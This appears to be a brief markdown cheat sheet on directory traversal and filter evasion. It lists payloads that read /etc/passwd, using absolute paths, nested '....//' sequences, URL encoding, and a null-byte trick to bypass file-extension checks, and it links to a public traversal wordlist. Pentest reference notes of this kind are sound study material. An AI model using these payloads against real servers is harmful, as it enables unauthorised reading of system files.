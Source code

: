 
## Directory Traversal Injection Technique & Evasion

- Common
```

```

- Bypass
```
#Use an absolute path
filename=/etc/passwd

#Use nested traversal
....// or
....\/

#Utilize URL Encoding
- 16-bit
- Double URL
- UTF-8

#Burp Suite Professional
	§ Contains encoded path traversal sequences

#Start with the base file and traverse from there
filename=/var/www/images/../../../etc/passwd

#Bypass the requirement to end with a file extension by using a null byte
filename=../../../etc/passwd%00.png
```

- Wordlists ---> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/directory_traversal.txt